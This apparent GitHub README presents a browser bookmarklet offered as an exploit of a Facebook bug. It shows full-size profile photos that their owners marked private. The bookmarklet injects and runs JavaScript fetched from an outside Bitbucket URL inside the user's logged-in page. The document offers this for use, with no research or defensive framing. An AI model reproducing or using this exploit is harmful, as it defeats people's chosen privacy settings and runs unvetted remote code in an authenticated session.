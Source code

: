 Facebook-Profile-Pic
====================

Code to exploit the facebook profile pic bug. Displays the full size profile photo of profiles which have profile photos marked as private.

Create a bookmarket in the browser with the following code :     

    javascript:(function(){var t=document.createElement("script");t.setAttribute("type","text/javascript");t.setAttribute("src","https://bitbucket.org/warunsl/facebook-profile-pic/raw/752b37b7c55908475539c3e62d66af8a39011aea/FbShowProfilePic.js");document.body.appendChild(t)})()

Works with Mozilla, not tested with Chrome. 
